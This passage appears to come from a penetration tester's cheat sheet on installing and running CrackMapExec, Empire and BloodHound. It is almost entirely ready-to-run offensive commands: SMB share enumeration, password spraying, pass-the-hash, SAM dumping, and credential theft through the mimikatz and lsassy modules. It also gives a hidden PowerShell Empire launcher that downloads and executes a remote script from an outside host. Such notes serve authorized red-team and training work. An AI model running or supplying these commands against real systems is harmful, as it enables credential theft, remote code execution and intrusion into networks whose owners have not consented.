 ```
$ git clone --recursive https://github.com/byt3bl33d3r/CrackMapExec ~/tools/CrackMapExec && cd ~/tools/CrackMapExec
$ poetry install
$ poetry run crackmapexec -h
Or
$ pipx install crackmapexec
$ cme -h
```

Use:

```
$ cme smb 127.0.0.1
$ cme smb 127.0.0.1 -u anonymous -p '' 2>/dev/null
$ cme smb 127.0.0.1 -u anonymous -p '' --shares
$ cme smb 127.0.0.1 -u '' -p '' -d WORKGROUP --shares
$ cme smb 127.0.0.1 -u nullinux_users.txt -p passwords.txt --shares [--no-bruteforce] [--continue-on-success]
$ cme smb 127.0.0.1 -u snovvcrash -p 'Passw0rd!' --spider-folder 'E\$' --pattern s3cret
$ cme smb 127.0.0.1 -u j.doe -p 'Passw0rd!' -d 'CORP' --spider Users --pattern '.'
$ cme smb 127.0.0.1 -u Administrator -H fc525c9683e8fe067095ba2ddc971889 --local-auth --sam
$ cme smb 127.0.0.1 -u snovvcrash -p '' -M spider_plus
$ cme smb 127.0.0.1 -u snovvcrash -p '' -M mimikatz
$ cme smb 127.0.0.1 -u snovvcrash -p '' -M lsassy
```



### Empire

* [https://github.com/BC-SECURITY/Empire](https://github.com/BC-SECURITY/Empire)

Install:

```
$ git clone https://github.com/BC-SECURITY/Empire ~/tools/Empire && cd ~/tools/Empire
$ sudo STAGING_KEY=`echo 'H4ckTh3Pl4net!' | md5sum | cut -d' ' -f1` ./setup/install.sh
$ sudo poetry install
$ echo $'#!/usr/bin/env bash\n\nsudo poetry run python empire' > ~/tools/Empire/run_empire.sh
$ chmod +x ~/tools/Empire/run_empire.sh
```

Pwsh launcher string:

```
PS > powershell -NoP -sta -NonI -W Hidden -Exec Bypass -C "IEX(New-Object Net.WebClient).DownloadString('http://10.10.13.37/launcher.ps1')"
```



### Bloodhound


#### Setup

```
$ sudo apt install neo4j
$ sudo mkdir -p /usr/share/neo4j/logs/
$ sudo neo4j console
...change default password at localhost:7474...
$ sudo neo4j start
$ wget https://github.com/BloodHoundAD/BloodHound/releases/latest
$ unzip BloodHound-linux-x64.zip && rm BloodHound-linux-x64.zip && cd BloodHound-linux-x64
$ sudo ./BloodHound --no-sandbox
Or
$ sudo chown root:root chrome-sandbox
$ sudo chmod 4755 chrome-sandbox
$ ./BloodHound
```